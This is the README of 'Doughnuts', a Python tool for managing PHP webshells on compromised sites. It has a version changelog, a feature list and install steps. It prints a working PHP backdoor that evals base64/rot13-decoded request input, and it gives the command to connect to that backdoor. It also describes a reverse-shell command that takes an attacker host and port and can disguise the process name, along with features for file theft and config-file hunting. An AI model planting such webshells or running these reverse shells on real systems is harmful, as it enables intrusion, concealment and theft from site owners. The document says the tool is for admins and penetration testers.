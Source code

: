 # Doughnuts

*一个基于Python3.6+的PHPwebshell管理器*

# 更新

## V1.8
- 优化连接时发送的请求,从发送三次变成发送2次
- 修改pdf命令的逻辑,在连接时获取
- 优化reshell命令,命令格式为reshell {lhost} {port} {type=[python|script|upload]{1|2|3},default = 0 (Python:1 Not Python:3)} {(Only for Mode 2) fakename=/usr/lib/systemd} 三种模式分别为:1->使用python pty模块升级, 2->使用linux自带的script命令升级, 3->上传一个反弹pty的二进制文件并运行(可以伪造进程名,若无法反弹请进入libs目录拿取源码,使用目标相同发行版进行编译后覆盖原reverse_server_light文件)


## V1.7

- 修改reshell命令,修复bug,优化体验,可以随意伪装进程名
- 在libs目录下放置reverse_server_light的源码,方便编译与修改(origin:https://github.com/QAX-A-Team/ptyshell)
- 重写portscan,支持三种扫描方式


## V1.6

- 修复了若干bug
- 添加了reshell命令,监听本地端口,并让目标反弹一个完整交互式的shell(仅限双方系统都是linux且可能存在一定的问题)


## V1.5

- modify指令现在会调用notepad/vim进行编辑
- write指令现在会调用notepad/vim进行编辑
- dump命令现在使用原始php代码进行压缩,可以压缩子目录
- 优化了发送payload的间隔符

## V1.4

- 添加指令:修改文件
- 关闭debug模式
- 修复了某些情况下fwpf,fc指令无法使用的情况,现在发送数据时会关闭错误提示

## 特征

- 支持连接,记录,管理webshell,方便下一次连接
- 基于eval的连接,支持GET,POST,COOKIE,HEADERS四种连接方式
- 支持编码payload(已内置base64,str_rot13两种编码,可以通过添加encode文件夹中的py文件进行扩展),以实现连接带有解码的webshell
- 核心功能
    - 获取网站,系统信息
    - 获取一个临时的非完全交互式shell和webshell
    - 以php/python的方式反弹shell(windows/unix通用)
    - 读/写/上传/下载/删除网站文件
    - 网站目录打包下载
    - 寻找可写的PHP文件(以树状结构显示)
    - 寻找配置文件(文件名中包含cfg/config/db/database) 也可以通过修改代码来支持寻找更多的文件(以树状结构显示)
    - 输出disbale_functions
    - 端口扫描
- 易于扩展

## 依赖

- Python3.6+
- Python-requests
- Python-colorama

## 安装方法

```
安装PYTHON 3.6+
git clone https://github.com/WAY29/Doughnuts.git
进入Doughnuts目录下
pip install -r requirements.txt 或 pip install requests colorma
python doughnuts.py
enjoy it!
```

## 使用例子

假如要连接以下的webshell:

```php
<?php
error_reporting(0);
eval(str_rot13(base64_decode($_REQUEST['2333'])));/
?>
```

那么只需要运行Doughnuts.py,并输入以下命令:

```
connect http://localhost/test.php GET 2333 rot13 base64
```

即可成功连接至webshell

## 参考

灵感源自https://github.com/WangYihang/Webshell-Sniper

## 免责声明

本项目仅供网站管理人员与渗透测试人员学习与交流,任何使用本项目进行的一切未授权攻击行为与本人无关.

